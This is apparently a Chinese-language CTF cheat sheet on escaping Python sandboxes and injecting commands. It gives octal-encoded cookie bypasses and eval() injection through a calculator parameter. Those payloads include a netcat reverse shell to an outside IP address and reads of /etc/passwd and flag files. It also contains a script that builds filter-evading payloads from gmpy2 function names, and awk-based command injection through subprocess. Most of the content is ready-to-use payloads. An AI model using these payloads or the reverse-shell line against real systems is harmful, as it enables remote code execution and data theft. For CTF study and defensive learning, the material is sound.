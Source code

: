 ## **python沙箱逃逸执行危险函数**
<https://blog.csdn.net/Jayjay___/article/details/132436072>


## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。

## **八进制编码**
有时也用八进制编码绕过
```
user = request.cookies.get("user")
    if user.lower() == 'adm;n':

Cookie: user="adm\073n";
```

^
## **eval()函数利用**
python报错后显示了代码：eval(a + operator + b)
```
拼接传参b
/_calculate?number1=1&operator=-&number2=1,__import__ ('os').system('nc 120.46.41.173 9023 -e /bin/sh')
```

```
eval(__import__('os').popen('cat /etc/passwd').read());
eval(__import__('os').popen('cat /f*').read());
```

^
## **eval存在过滤**
eval(code)
要求code存在gmpy2数组中
```
for item in pattern.findall(code):#从code里把单词拿出来 
if not re.match(r'\d+$',item):#如果不是数字 
if item not in dir(gmpy2):#逐个和gmpy2库里的函数名比较
```
```
知道gmpy2以下可以命令执行：
gmpy2.__builtins__['eval']("__import__('os').popen('tac /flag').read()")

则需要对eval和__import__('os').popen('tac /flag').read()进行内含的数组中绕过
即：
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cot'[2]+'ai'[0]+'cmp'[0]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")

```
生成脚本
```
s="__import__('os').popen('tac /flag').read()"

import gmpy2

payload="gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]("

for i in s:
        if i not in "/'(). ":
                temp_index=0
                temp_string='x'*20
                for j in dir(gmpy2):
                        if j.find(i)>=0:
                                if len(j)<len(temp_string):
                                        temp_string=j
                                        temp_index=j.find(i)
                payload+=f'\'{temp_string}\'[{temp_index}]+'
        else:
                payload+=f'\"{i}\"+'

payload=payload[:-1]+')'

print(payload)
```



^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
cmd: str = request.form.get('cmd')
param: str = request.form.get('param')

tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
可以直接
```
cmd=cat&param=flag.txt
```

python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '{system("ls")}' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
```
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查看fLag文件的内容
```
